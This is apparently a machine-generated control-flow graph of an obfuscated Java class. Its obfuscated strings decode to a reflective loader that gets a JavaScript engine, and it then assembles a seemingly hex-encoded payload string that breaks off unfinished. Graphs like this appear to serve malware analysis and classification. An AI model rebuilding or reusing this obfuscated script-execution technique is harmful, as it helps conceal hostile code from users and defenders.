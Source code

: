 digraph "" {
    "r0 := @this: dhycnvdbqlpbdahs"
    "push 0"
    "r0 := @this: dhycnvdbqlpbdahs"->"push 0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "pop"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push 1"
    "pop"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"push 0";
    "push class \"Ljava/lang/System;\""
    "push 0"->"push class \"Ljava/lang/System;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/System;\""->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new javax.script.ScriptEngineManager"
    "pop"->"new javax.script.ScriptEngineManager";
    "store.r r1"
    "new javax.script.ScriptEngineManager"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "load.r r1"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"1jahJU\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"1jahJU\"";
    "push \"1jahJU\""->"push 1";
    "push 3"
    "push 1"->"push 3";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FNva\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FNva\"";
    "push 2"
    "push \"FNva\""->"push 2";
    "push 4"
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"DjYx.sS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"DjYx.sS\"";
    "push \"DjYx.sS\""->"push 3";
    "push 6"
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"j5lcrak\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"j5lcrak\"";
    "push \"j5lcrak\""->"push 3";
    "push 5"
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ipDe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ipDe\"";
    "push \"ipDe\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"t.65N\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"t.65N\"";
    "push \"t.65N\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1L0DScL\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1L0DScL\"";
    "push \"1L0DScL\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ripzbGJ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ripzbGJ\"";
    "push \"ripzbGJ\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"G0tEndC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"G0tEndC\"";
    "push \"G0tEndC\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"giKa\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"giKa\"";
    "push \"giKa\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ZhaneMlysE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ZhaneMlysE\"";
    "push \"ZhaneMlysE\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"tKAanJ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"tKAanJ\"";
    "push \"tKAanJ\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0QLRagt1D\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0QLRagt1D\"";
    "push \"0QLRagt1D\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"er\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"er\"";
    "push \"er\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r1";
    "load.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"CrWget\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"CrWget\"";
    "push \"CrWget\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"pQ7EnR\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"pQ7EnR\"";
    "push \"pQ7EnR\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"GGginhBG2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"GGginhBG2\"";
    "push \"GGginhBG2\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7eByg0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7eByg0\"";
    "push \"7eByg0\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"eNaK\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"eNaK\"";
    "push \"eNaK\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4ZmemQY\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4ZmemQY\"";
    "push \"4ZmemQY\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"ZYjsZGt\""
    "push 0"->"push \"ZYjsZGt\"";
    "push \"ZYjsZGt\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"arraywrite.r";
    "staticinvoke <dhycnvdbqlpbdahs: java.lang.Object jLEcCN(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"
    "arraywrite.r"->"staticinvoke <dhycnvdbqlpbdahs: java.lang.Object jLEcCN(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "checkcast"
    "staticinvoke <dhycnvdbqlpbdahs: java.lang.Object jLEcCN(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "load.r r0"
    "pop"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"Md667\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"Md667\"";
    "push \"Md667\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"56eZbEd\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"56eZbEd\"";
    "push \"56eZbEd\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"t63E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"t63E\"";
    "push \"t63E\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"k0b74BDl\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"k0b74BDl\"";
    "push \"k0b74BDl\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"z7z696L\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"z7z696L\"";
    "push \"z7z696L\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"QwFf67g\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"QwFf67g\"";
    "push \"QwFf67g\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0cVe2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0cVe2\"";
    "push \"0cVe2\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5307U\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5307U\"";
    "push \"5307U\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"s54YYlU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"s54YYlU\"";
    "push \"s54YYlU\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"zrps67\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"zrps67\"";
    "push \"zrps67\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"wjUZ162rTQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"wjUZ162rTQ\"";
    "push \"wjUZ162rTQ\""->"push 4";
    "push 7"
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PV446\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PV446\"";
    "push \"PV446\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"jvey22r63\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"jvey22r63\"";
    "push \"jvey22r63\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"829El8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"829El8\"";
    "push \"829El8\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Mq7bj\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Mq7bj\"";
    "push \"Mq7bj\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"frKM65NuLP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"frKM65NuLP\"";
    "push \"frKM65NuLP\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"WVc20t5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"WVc20t5\"";
    "push \"WVc20t5\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"60ZB3dfZZ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"60ZB3dfZZ\"";
    "push \"60ZB3dfZZ\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"QB206Q\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"QB206Q\"";
    "push \"QB206Q\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"dQqqe6UFs\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"dQqqe6UFs\"";
    "push \"dQqqe6UFs\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"57DB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"57DB\"";
    "push \"57DB\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"hb72D\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"hb72D\"";
    "push \"hb72D\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ZCul04s\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ZCul04s\"";
    "push \"ZCul04s\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"572r\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"572r\"";
    "push \"572r\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"zH7265wGu\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"zH7265wGu\"";
    "push \"zH7265wGu\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
